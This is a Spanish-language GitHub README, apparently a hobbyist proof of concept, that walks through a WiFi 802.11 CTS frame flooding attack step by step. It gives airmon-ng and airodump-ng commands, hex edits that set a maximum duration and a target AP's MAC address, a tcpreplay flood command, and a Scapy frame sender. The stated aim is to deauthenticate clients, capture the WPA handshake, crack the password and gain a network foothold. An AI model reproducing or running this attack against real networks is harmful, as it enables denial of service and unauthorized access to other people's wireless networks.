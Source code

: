 # WiFi 802.11: CTS Frame Attack

_Proof of Concept (PoC) que hice del proceso completo de un CTS Frame Attack con instrucciones paso a paso_

---

### Introducción

- Este ataque se basa en el secuestro de Bandwith (DataRate & Throughput) de la WLAN creando contención via Flooding de `CTS Frames` con su máximo `Duration`, esto genera un tipo de `DoS` en el WiFi. Esto puede generar comportamientos irregulares en la red, como deautenticar clientes. 

- El propósito es deautenticar clientes para al final capturar un 4-way-handshake (similar a un deauth attack) y así poder crackear el password e ingresar a la red, a partir de ahí se crea el foothold para post-exploit de red. 

Un ataque CTS frame es un tipo de ataque de red inalámbrica que busca explotar una vulnerabilidad en el protocolo de control `control frame 802.11 CTS (Clear to Send)` utilizado por el estándar de comunicación inalámbrica IEEE 802.11.

En este tipo de ataque, un atacante envía una gran cantidad de paquetes falsificados al dispositivo objetivo, cada uno de los cuales solicita una respuesta de tipo CTS. Al inundar al dispositivo objetivo con tantas solicitudes, el atacante puede abrumar su capacidad de respuesta, lo que puede provocar una caída en la conexión o retrasos en la comunicación.

El ataque CTS frame es una técnica de ataque de denegación de servicio (DoS) que tiene como objetivo interrumpir o interferir con la conexión inalámbrica de un dispositivo objetivo mediante la saturación de solicitudes falsificadas de tipo CTS.

- Diagrama de transmisión 802.11

![image](https://user-images.githubusercontent.com/94720207/231958899-e9e86492-a1af-4539-889f-b3b598db9d88.png)


---

### Instrucciones

Existen 2 files listos para la diversión:

1. [Fz3r0_CTS_808.pcap](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/blob/main/CTS-PCAPS/Fz3r0_CTS_808.pcap) - Este es un CTS raw capturado, sin modificar ni nada (excelente para hacer tampering de 0)
2. [Fz3r0_CTS_808_30000duration_attack.pcap](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/blob/main/CTS-PCAPS/Fz3r0_CTS_808_30000duration_attack.pcap) - Este esn un CTS ya modificado con el Duration en 30000 (máximo válido para un CTS)

Solo es necesario inyectarlo a la red en forma de flood al BSS que quieras atacar, por ejemplo:

- **The maximum amount of microseconds that can be set on the NAV timers of listening stations that hear the transmission of another 802.11 station is = `32,767 μs`**

```sh
tcpreplay --intf1=wlan0mon --topspeed --loop=2000 Fz3r0_CTS_808_30000duration_attack.pcap 2>/dev/null
```

- OJO!!! Hay que hacer modificación HEX para agregar la MAC/BSS de la WLAN a atacar

---

### PoC 

- Proof of Concept de ataque capturado en `pcapng`

[Ataqu-CTS-full-capturado-2devices.zip](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/files/11228557/Ataqu-CTS-full-capturado-2devices.zip)

Evidencias: 

Nota: Utilicé mis filtros creados para `BlackShark`:

- Master Fz3r0 Filter - CTS Attack DoS Evidencia:

````py
# CTS Frames & Duration = 30000
wlan.duration == 30000 && wlan.fc.type_subtype == 0x001c
````

![image](https://user-images.githubusercontent.com/94720207/232187082-f7ee2924-019b-49be-9f67-c6c22d14638c.png)

- Master Fz3r0 Filter - 4-way-handshake Process

````py
!wlan.fc.retry == 1 && (wlan.fc.type_subtype == 0 || wlan.fc.type_subtype == 1 || wlan.fc.type_subtype == 11 || wlan.fc.type_subtype == 12 || wlan.fc.type_subtype == 10 || eapol)
````

![image](https://user-images.githubusercontent.com/94720207/232185510-553656a2-a304-4edb-9dbc-cff2501dd3eb.png)


## Ataque completo

Solo hay que seguir estos sencillos pasos: 

```sh

## CTS = Clear To Send (Control Frames) Attack

    ## - Este ataque se basa en el secuestro de Bandwith (DataRate & Throughput) de la WLAN

    ## - El propósito es deautenticar clientes para al final capturar un handshake (similar a un deauth attack)

# INSTRUCCIONES:    

# 1. Monitorizar la red (ventana A + Save audit .cap) 

    # Ojo: no debe ser tan avanzado y auditoado realmente, solo quiero paturar el CTS, pero para tener ya toda la red para atacar desde un inicio :P (mas adelante necesito el BSS para inyectar el frame anyway)

airmon-ng check kill && airmon-ng start wlan0mon && airmon-ng check kill && airmon-ng start wlan0mon && airodump-ng -c 6 --bssid 30:45:96:D7:F2:3E --write Fz3r0_WiFi_Log wlan0

# 2. Ahora hay que crear, farmear o modificar... un Frame CTS con Duration (microsegundos) muy largo

#     - Lo extraigo de Wireshark farmeando cualquier cosa en la red o de una captura vieja 802.11

# Ejemplo: 

    # Escuchar con Wireshark y buscar CTS con:  >>> wlan.fc.type_subtype == 28 <<<

    # El lugar donde esta el duration en 802.11 frame > CTS > Flags > Duration (Hasta abajo) >>> wlan.duration <<<

    # Seleccionar el frame que quiera, y apuntar bien su Duration!!! p.e.: 556 (ss)

    # Wireshark > File > Export Specified packets > "Fz3r0_CTS_556.pcap"   REVISAR BIEN EXPORTAR "ONLY SELECTED" Y "PCAP (NO NEW GEN)"

# - Abrir ghex con el .pcap creado: 

ghex Fz3r0_CTS_808.pcap  

# - La mejor manera de revisar el duration es abrir ese mismo frame con wireshark y darle click y ya!!! tan facil

# - Las 2 veces que revisé era después del par 6 de derecha a izquierda: (00 2c)

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 2c 02 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --

# - Se puede comprobar con Python, por ejemplo:

     # 1 - Sacar el valor little indian (derecha izquierda en pares)

     # 2c 02 = 02 2c

     # 1- Comprobar con python en formato HEX: 0x2c00

# inicio consola python
python3

# En consola python
0x022c

    # Resultado, si fue igual a 556, entonces compruebo ese es el duration en hex

        # >>> 0x022c
        # 556

# 3. Ahora hay que modificar el frame para poner el máximo duration posible de un CTS (30000 ss) 
    
    # Esto va a crear contención artificial ;) 

# inicio consola python
python3

# En consola python
hex(30000)

    # Resultado = 0x7530 

        # >>> hex(30000)
        # '0x7530'

    # Little indian (reversa ahora) = 30 75

    # Entonces ahora el HEX quedaría así

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --

# En caso de haber cerrado ghex, volverlo a abrir 

ghex Fz3r0_CTS_808.pcap 

# 1. Modificación de Frame (solo dar doble click y modificar los 2 pares [30 75])

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --  

# 2. Modificar la MAC del BSS (AP) que quiero atacar 30:45:96:D7:F2:3E (si el primer frame se capturo de esa MAC entonces será la misma)

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 30 45 96 D7 F2 3E               ....,.$.E7..
###                               -- -- -- -- -- -- 

# 3. Guardar el archivo como un nuevo .pcap (este puede servir en un futuro, solo se necesita cambiar el BSS ;))

    # Save As: Fz3r0_CTS_808_30000duration_attack.pcap

# 4. Validar con wireshark el frame y su duración

wireshark Fz3r0_CTS_808_30000duration_attack.pcap 

    # En mi caso ahora el duration y Receiver Address dice: 

    # Duration:          30000

    # Receiver Address:  30:45:96:D7:F2:3E

    # FCS: Ese puede que marque error pero el frame será válido (recordar que algunas interfaces no capturan FCS como la Panda)

# 2. Inyectar el Frame CTS modificado con TCP Replay  

    # -- topspeed (que lo haga al maximo de velocidad)

    # -- loop (cantidad de frames a enviar)

tcpreplay --intf1=wlan0mon --topspeed --loop=2000 Fz3r0_CTS_808_30000duration_attack.pcap 2>/dev/null

# Se puede validar con <<< wlan.duration == 30000 >>> y se verán los paquetes boom!!!

    # En este punto se pudieron haber ya deautenticado dispositivos en el BSS atacado

````

### Crear CTS con Scappy

````py

# aun no he logrado modificar el duration, pero esto lanza un CTS real ;) 

from scapy.all import *

type_field = 12
subtype_field = 12
FCfield_field = 0
ID_field = 0
addr1_field = "00:11:22:33:44:55"
addr2_field = "aa:bb:cc:dd:ee:ff"
addr3_field = "ff:ee:dd:cc:bb:aa"
SC_field = 0

pkt = RadioTap() / Dot11(type=type_field, subtype=subtype_field, FCfield=FCfield_field, ID=ID_field, addr1=addr1_field, addr2=addr2_field, addr3=addr3_field, SC=SC_field)

print(pkt.summary())

# Enviar el paquete creado
sendp(pkt, iface="wlan0mon", count=1)

````

---

### Ejemplo de ghex como quedaría el tamper al final: 

![image](https://user-images.githubusercontent.com/94720207/231923676-45c90520-c7fe-41e2-928e-d164a2bd3afc.png)

![image](https://user-images.githubusercontent.com/94720207/232181113-3d686a20-4535-4d43-9271-646128b89047.png)


